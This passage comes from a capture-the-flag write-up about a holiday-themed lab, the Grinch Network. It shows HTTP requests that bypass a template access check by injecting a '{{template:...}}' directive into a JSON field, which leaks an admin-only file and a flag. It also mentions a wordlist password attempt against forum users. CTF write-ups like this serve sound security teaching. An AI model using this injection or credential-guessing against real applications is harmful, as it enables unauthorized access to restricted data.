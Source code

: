 Hmm, templates, you say? Let's take a look at that.

{F1134450}

Well. We are going to need to take a look at that "admins only" header! Unfortunately, clicking any of these links gives a 403 Forbidden error.

Still, we saw in the example campaign that there is a way to render these files in emails. We can give it a try:

**Request:**
```
POST /hate-mail-generator/new/preview
preview_markup=Hello+{{template:38dhs_admins_only_header.html}}+....&preview_data={"name":"Alice","email":"alice@test.com"}
```
```
You do not have access to the file 38dhs_admins_only_header.html
```

No dice. We could also try sending the template as part of the JSON to be substituted into the markup. This way the content may pass an initial security check while still rendering the content we want.

**Request:**
```
POST /hate-mail-generator/new/preview
preview_markup=Hello+{{name}}+....&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```

```html
Hello <html>
<body>
<center>
    <table width="700">
        <tr>
            <td height="80" width="700" style="background-color: #64d23b;color:#FFF" align="center">Grinch Network Admins Only</td>
        </tr>
        <tr>
            <td style="padding:20px 10px 20px 10px">
                <h4>flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}</h4> ....
```

Flag captured! `flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}`

# Day 8
> The Grinch thought it might be a good idea to start a forum but nobody really wants to chat to him. He keeps his best posts in the Admin section but you'll need a valid login to access that!

{F1134453}

The login page shows a generic "Username/Password Combination is invalid" which means we can't enumerate usernames like last time. The forum posts did show posts by a user named `grinch` and another named `max`. I tried to use a wordlist to find their passwords, but this seemed to be a dead end. 

